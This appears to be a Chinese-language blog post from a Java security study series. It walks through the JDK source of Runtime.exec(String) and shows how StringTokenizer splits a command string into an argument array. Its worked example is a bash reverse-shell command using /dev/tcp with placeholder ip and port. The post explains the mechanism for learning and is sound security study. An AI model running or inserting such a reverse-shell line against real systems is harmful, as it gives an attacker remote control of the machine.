 可以看到总共有六个重载方法，但是其实他们彼此之间都是存在依赖关系的，即最后都是调用了相同的重载方法

![image-20240316133717670](../blog_img/image-20240316133717670.png)

当我们传入一个String类型的参数时，会先经过`exec(String command, String[] envp, File dir)`的处理得到一个cmdarray.

我们来看下`exec(String command, String[] envp, File dir)`的处理过程：

```java
public Process exec(String command, String[] envp, File dir)
        throws IOException {
        if (command.length() == 0)
            throw new IllegalArgumentException("Empty command");

        StringTokenizer st = new StringTokenizer(command);
        String[] cmdarray = new String[st.countTokens()];
        for (int i = 0; st.hasMoreTokens(); i++)
            cmdarray[i] = st.nextToken();
        return exec(cmdarray, envp, dir);
}
```

可以看到利用StringTokenizer()来为cmdarray生成元素：

```java
public StringTokenizer(String str) {
  this(str, " \t\n\r\f", false);
}
```

就当字符串有" \t\n\r\f"这些元素时，会以这些元素对字符串进行split得到cmdarray

```java
"bash -i &> /dev/tcp/ip/port 0>&1"
会被分割为：
{"bash","-i","&>","/dev/tcp/ip/port","0>&1"}
```

然后我们来跟下最终的`exec(String[] cmdarray, String[] envp, File dir)`，可以看到其实将cmdarray作为参数传入了ProcessBuilder



# 参考内容

狂神说Java

P神的Java安全漫谈     [P神的知识星球](https://govuln.com/)






